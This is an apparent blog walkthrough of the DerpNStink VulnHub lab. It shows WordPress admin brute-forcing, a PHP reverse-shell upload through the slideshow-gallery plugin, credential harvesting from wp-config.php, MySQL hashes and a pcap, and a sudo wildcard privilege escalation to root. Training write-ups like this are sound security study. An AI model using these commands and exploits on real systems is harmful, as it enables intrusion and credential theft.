 ```yaml
---
title: "DerpNStink"
date: 2021-05-06T04:57:39+05:30
draft: false
toc: false
images:
tags:
  - VulnHub
  - WordPress
  - MySQL
---
```


## DerpNStink VulnHub Walkthrough

### Recon & Enumeration

- `sudo netdiscover -i eth0 -r 10.0.2.0/24` 
- DerpNStink IP: `10.0.2.8` 

#### RustScan + Nmap

- `sudo rustscan -a 10.0.2.8 -- -sS -A`

  ```
  10.0.2.8:21/tcp => vsftpd 3.0.2
  10.0.2.8:22/tcp => OpenSSH 6.6.1p1 
  10.0.2.8:80/tcp => Apache httpd 2.4.7 
  ```

- In HTML source code: 
```
flag1(52E37291AEDF6A46D7D0BB8A6312F4F9F1AA4975C248C3F0E008CBA09D6E9166)
```

#### GoBuster

```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.0.2.8 -t 60 -x txt
```

```
/weblog        (Status:301) [Size:304] [http://10.0.2.8/weblog/]
/php           (Status:301) [Size:301] [http://10.0.2.8/php/]   
/css           (Status:301) [Size:301] [http://10.0.2.8/css/]   
/js            (Status:301) [Size:300] [http://10.0.2.8/js/]    
/javascript    (Status:301) [Size:308] [http://10.0.2.8/javascript/]
/robots.txt    (Status:200) [Size:53]                                   
/temporary     (Status:301) [Size:307] [http://10.0.2.8/temporary/] 
/server-status (Status:403) [Size:288]
```
- `/weblog` redirected to `http://derpnstink.local/weblog`. So we will need to add it to the hosts file.
- `echo 10.0.2.8 derpnstink.local | tee -a /etc/hosts`
- Then visit `http://derpnstink.local/weblog`.
- Its a WordPress blog. 

---

### Exploitation

```
wpscan --url http://derpnstink.local/weblog -e at -e ap -e u
```

```
WordPress theme in use: twentysixteen
Location: http://derpnstink.local/weblog/wp-content/themes/twentysixteen/
Last Updated: 2021-03-09T00:00:00.000Z
Readme: http://derpnstink.local/weblog/wp-content/themes/twentysixteen/readme.txt
The version is out of date, the latest version is 2.4

Plugin(s) Identified:

slideshow-gallery
Location: http://derpnstink.local/weblog/wp-content/plugins/slideshow-gallery/
Last Updated: 2019-07-12T13:09:00.000Z
The version is out of date, the latest version is 1.6.12
Found By: Urls In Homepage (Passive Detection)
Version: 1.4.6 (100% confidence)
Found By: Readme - Stable Tag (Aggressive Detection)
- http://derpnstink.local/weblog/wp-content/plugins/slideshow-gallery/readme.txt
Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
- http://derpnstink.local/weblog/wp-content/plugins/slideshow-gallery/readme.txt

User(s) Identified:
- admin
```

- We got a username: `admin`. Now to brute force for password:
```
wpscan --url http://derpnstink.local/weblog/ -U admin -P /usr/share/wordlists/rockyou.txt -t 60
```

```
Valid Combinations Found:
Username: admin, Password: admin
```
- Honestly, I should have just tried `admin:admin` before even running `wpscan` but, oh well.
- Go to `/weblog/wp-admin/` and log in with `admin` : `admin`
- Go to Slideshow, click on one of the available ones, in there, under Choose Image option, select a file to upload. Choose PHP reverse shell file (with IP and port changed to connect back to our Kali VM) and it will be accepted without even changing extension. 
- Or you can use this exploit to upload the shell since we already have user credentials: [WordPress Plugin Slideshow Gallery 1.4.6 - Arbitrary File Upload](https://www.exploit-db.com/exploits/34681).

```python
python wp_slideshow_exploit.py -t http://derpnstink.local/weblog -u admin -p admin -f php-shell.php
```

- Start a netcat listener: `nc -lvnp 1234`
- Then go back to Slideshow and click on the slideshow that has PHP reverse shell file and we will get a reverse shell as `www-data`. 
- `cd /var/www/html/weblog` and `ls -la` 
- We have read access to `wp-config.php` so `cat wp-config.php` 
```
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'mysql');
```
- `mysql -u root -p` => `mysql` 
- `show databases;` 
- `use mysql;` 
- `show tables;` 
- `select * from user;` 
- DerpNStink MySQL Commands:
![DerpNStink MySQL Commands](/imgs/derpnstink/derpnstink_mysql_commands.png)
- Dumping users & passwords from MySQL:
![Dumping Users & Passwords from MySQL](/imgs/derpnstink/derpnstink_mysql_users_passwords.png)

- And we get a few MySQL password hashes. Used [CrackStation](https://crackstation.net/) to crack them: 
```
root = E74858DB86EBA20BC33D0AECAE8A8108C56B17FA = mysql
unclestinky = 9B776AFB479B31E8047026F1185E952DD1E530CB = wedgie57
phpmyadmin = 4ACFE3202A5FF5CF467898FC58AAB1D615029441 = admin
```

- Lets try `unclestinky : wedgie57` on user `stinky`. 
- `su stinky` => `wedgie57` and it works. 
- There is a `ftp` directory in `/stinky` and if we keep going in, there is a `key.txt` file which has `ssh` key for user `stinky` 

```
/home/stinky/ftp/files/ssh/ssh/ssh/ssh/ssh/ssh/ssh/key.txt
```

- But we can also get it from `/home/stinky/.ssh`
- `cd /home/stinky/.ssh` and start a python server with `python3 -m http.server 5959` and then get the `id_rsa` key from `derpnstink.local:5959/id_rsa` using a browser or via `wget`. 
- `chmod 600 id_rsa` and then log in via `ssh`: 
- `ssh -i id_rsa stinky@10.0.2.8` 
- `cd /home/stinky/Desktop && ls -la` 
- `cat flag.txt` 

```
flag3(07f62b021771d3cf67e2e1faf18769cc5e5c119ad7d4d1847a11e11d6d5a7ecb)
```

- `cd /home/stinky/Documents && ls -la` there is a `derpissues.pcap` file. 
- `strings derpissues.pcap` to get the general idea of traffic recorded. 
- There are a few HTTP POST requests in there without SSL/TLS, thus, unencrypted. So we can start looking at them. Or we can `grep` for the username we already have: `mrderp`. I tried it both ways. 
- `strings derpissues.pcap | grep -n mrderp` 
- This gives 7 results but the first one itself reveals the password that was used while creating the account for `mrderp` and the second one reveals it again when it was used for logging in as `mrderp`. 

```
56710:action=createuser&_wpnonce_create-user=b250402af6&_wp_http_referer=%2Fweblog%2Fwp-admin%2Fuser-new.php&user_login=mrderp&email=mrderp%40derpnstink.local&first_name=mr&last_name=derp&url=%2Fhome%2Fmrderp&pass1=derpderpderpderpderpderpderp&pass1-text=derpderpderpderpderpderpderp&pass2=derpderpderpderpderpderpderp&pw_weak=on&role=administrator&createuser=Add+New+User
57149:log=mrderp&pwd=derpderpderpderpderpderpderp&wp-submit=Log+In&redirect_to=http%3A%2F%2Fderpnstink.local%2Fweblog%2Fwp-admin%2F&testcookie=1
```

- The other method is to filter POST requests and to look for passwords in unencrypted/plain text parameters. 
- So to filter the `strings` results for just those POST requests: 
- `strings derpissues.pcap | grep POST` 
- It lists all the POST requests but we can filter out the others that we don't need and focus only on POST requests made to `/weblog/wp-login.php` 
- `strings derpissues.pcap | grep -A 20 "POST /weblog/wp-login.php"` 
- `grep -A 20` to print the next 20 lines that come after the expected result of `grep`. 
- Now there are only three such POST requests and the username and password payload being sent through them is in plain text. 

```
1: log=unclestinky%40derpnstink.local&pwd=wedgie57&wp-submit=Log+In&redirect_to=http%3A%2F%2Fderpnstink.local%2Fweblog%2Fwp-admin%2F&testcookie=1c3
2: log=mrderp&pwd=derpderpderpderpderpderpderp&wp-submit=Log+In&redirect_to=http%3A%2F%2Fderpnstink.local%2Fweblog%2Fwp-admin%2F&testcookie=1
```
- We already have `stinky`'s or `unclestinky`'s password: `wedgie57` and now we also have `mrderp`'s password: `derpderpderpderpderpderpderp` 
- `su mrderp` => `derpderpderpderpderpderpderp` and we are now logged in as `mrderp`! 
- `mrderp` : `derpderpderpderpderpderpderp` 

---

### Privilege Escalation

- `sudo -l` => `derpderpderpderpderpderpderp` 
```
User mrderp may run the following commands on DeRPnStiNK:
    (ALL) /home/mrderp/binaries/derpy*
```
- If you `cd /home/mrderp/Desktop/ && ls`, there is a `helpdesk.log` file which has a pastebin link inside: `https://pastebin.com/RzK9WfGw`. This pastebin also tells us the same thing that `sudo -l` says. 
- So back to privilege escalation, there is no `/home/mrderp/binaries/` directory so lets create one. 
- `cd /home/mrderp` and then `mkdir binaries && cd binaries` 
- Then create a bash script (any script/executable will work here) that we can execute with `sudo`. 
- `touch derpy.sh` 
- `echo /bin/bash > derpy.sh` 
- Then `chmod +x derpy.sh` and then execute it with: 
`sudo ./derpy.sh` and we are now `root`! 
- `whoami` => `root` 
- `cd /root/Desktop && ls -la` 
- `cat flag.txt` 
```
flag4(49dca65f362fee401292ed7ada96f96295eab1e589c52e4e66bf4aedda715fdd)

Congrats on rooting my first VulnOS!
Hit me up on twitter and let me know your thoughts!
@securekomodo
```



<!-- ### Possible Kernel Exploit

- `uname -a` 
```
Linux DeRPnStiNK 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016 i686 athlon i686 GNU/Linux
```
- Kernel exploit could be possible. Try kernel exploit later. 
 -->

